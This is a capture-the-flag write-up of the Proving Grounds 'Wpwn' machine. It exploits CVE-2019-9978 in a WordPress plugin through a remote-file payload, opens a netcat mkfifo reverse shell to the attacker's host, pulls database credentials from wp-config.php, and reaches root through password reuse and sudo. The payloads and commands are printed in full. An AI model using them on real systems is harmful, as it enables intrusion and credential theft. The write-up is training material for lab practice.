




# Wpwn
**Date:** April 28th 2022

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Easy

<br>



<br>

## Objectives
- user.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 192.168.65.123`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
```

<br>

### Gobuster Scan

`gobuster dir -u http://192.168.65.123 -t 100 -r -x php,txt,html -w dir-med.txt`

```
/robots.txt           (Status: 200) [Size: 57]
/index.html           (Status: 200) [Size: 23]
/wordpress            (Status: 200) [Size: 27984]
```

An additional gobuster scan of **/wordpress** shows us the standard Wordpress files:

`gobuster dir -u http://192.168.65.123/wordpress -t 100 -r -x php,txt,html -w dir-med.txt`

```
/index.php            (Status: 200) [Size: 27984]
/wp-admin             (Status: 200) [Size: 6985] 
/wp-signup.php        (Status: 200) [Size: 7127] 
/wp-includes          (Status: 200) [Size: 48377]
/wp-content           (Status: 200) [Size: 0]    
/xmlrpc.php           (Status: 405) [Size: 42]   
/wp-trackback.php     (Status: 200) [Size: 135]  
/wp-login.php         (Status: 200) [Size: 6985] 
/license.txt          (Status: 200) [Size: 19915]
/readme.html          (Status: 200) [Size: 7278]
```


<br>

## Website Digging

Visiting the main page just displays:

```
wpwn box Have fun! :D 
```

Looking at **robots.txt**:

```
/secret
# haha, just kidding. Focus on real stuff ma boi
```

Visiting **/wordpress** shows us:



<br>

**Wappalyzer** shows us that it's running **Wordpress 5.5**



<br>

We know that there's a user named **admin** based on the **Hello World!** blog post on the main page.

I start up a **wpscan** on the target system:

`wpscan --url http://192.168.65.123/wordpress -v -t 20 --request-timeout 20 --connect-timeout 20 -e vt,tt,u,vp,dbe,u,m --plugins-detection aggressive --plugins-version-detection aggressive --api-token <REDACTED> -o wpwn.txt`

From the results this one in particular looks interesting:

```
 | [!] Title: Social Warfare <= 3.5.2 - Unauthenticated Remote Code Execution (RCE)
 |     Fixed in: 3.5.3
 |     References:
 |      - https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618
 |      - https://www.webarxsecurity.com/social-warfare-vulnerability/

```

Visiting the first link under references explains how to use this exploit.

I create a file called **test.txt** with this payload in it and start up a simple Python HTTP server to host it:

```
<pre>system('cat /etc/passwd')</pre>  
```

Navigating to the address the exploit suggested triggers a GET request and ultimately runs the command displaying the **/etc/passwd** file:

```
view-source:http://192.168.65.123/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.49.65/test.txt
```

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.65.123 - - [27/Apr/2022 23:49:39] "GET /test.txt?swp_debug=get_user_options HTTP/1.0" 200 -
```

```
root:x:0:0:root:/root:/bin/bash
<SNIP>
takis:x:1000:1000:takis,,,:/home/takis:/bin/bash
```

<br>

## System Access

I modify the **test.txt** file to run a **which nc** command to check if netcat is installed on the system, and it is. Let's see if we can use that for a reverse shell.

I modify the **text.txt** file again and add the standard **nc mkfifo reverse shell**:

```
<pre>system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.49.65 4444 >/tmp/f')</pre>
```

And visiting the exploitable URL again gets us a reverse shell:

```
listening on [any] 4444 ...
connect to [192.168.49.65] from (UNKNOWN) [192.168.65.123] 35212
bash: cannot set terminal process group (512): Inappropriate ioctl for device
bash: no job control in this shell
www-data@wpwn:/var/www/html/wordpress/wp-admin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The shell we get back isn't great so I run the following to upgrade the shell:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

Background the session

`stty raw -echo; fg`

`export TERM=xterm-256color`

And with that we have a much nicer shell to use.

<br>

## System Enumeration

We have our standard **wp-config.php** file, and it does have database credentials inside of it:

```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress_db' );

/** MySQL database username */
define( 'DB_USER', 'wp_user' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3&]vzhHmMn9,:-5' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

I login to the database and find an **admin password hash** in the **wp_users table**:

```
+----+------------+------------------------------------+---------------+---------------------+---------------------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email          | user_url                        | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+---------------------+---------------------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$BoIPbgc5i8WpBP2HzqoeQW3jfRVAyU1 | admin         | unknown@uknown.1337 | http://192.168.65.123/wordpress | 2020-08-17 23:26:45 |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+---------------------+---------------------------------+---------------------+---------------------+-------------+--------------+
```

Running the hash through **hashcat** unfortunately does not crack with it with **rockyou**:

`hashcat -m 400 -w 3 -D 1,2 hash.txt rockyou.txt`

```
Recovered........: 0/1 (0.00%) Digests
```

Looking in **/var/www** shows a file called **local.txt** which turns out to be the required user flag:

`wc -c local.txt`

```
33 local.txt
```

In the **/home** directory we see only user one user: **takis**. In his home directory is a file called **user.txt** which tells us:

```
Your flag is in another file...
```

I check for interesting **SUID** or **SGID** files but there isn't anything out of the ordinary. Same goes with a capabilities check.

<br>

## Takis User

Checking to see if there is password reuse using the one user we found on the system and the password from the **wp-config.php** file:

`ssh takis@192.168.65.123`

```
takis@192.168.65.123's password: 
Linux wpwn 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Apr 28 00:54:31 2022 from 192.168.49.65
takis@wpwn:~$
```

The first thing I check is `sudo -l` and, well, yeah...

```
Matching Defaults entries for takis on wpwn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User takis may run the following commands on wpwn:
    (ALL) NOPASSWD: ALL
```

<br>

## Root

Running a simple `sudo su` gets us root:

```
takis@wpwn:~$ sudo su
root@wpwn:/home/takis#
```

Looking in **/root** shows us our last flag **proof.txt**:

`wc -c proof.txt`

```
33 proof.txt
```

<br>

With that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Using **wpscan** to identify a **RCE** vulnerability in the **Social Warefare** plugin documented as [**CVE-2019-9978**](https://nvd.nist.gov/vuln/detail/CVE-2019-9978)
- Exploiting **CVE-2019-9978** to gain a reverse shell on the system
- Finding credentials in the **wp-config.php** file
- Privilege escalation to user **takis** due to password reuse - the password we found in **wp-config.php** allows us to connect over via **ssh**
- Checking **sudo -l** and finding we can run (ALL) NOPASSWD: ALL allowing us to **sudo su** over to root

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
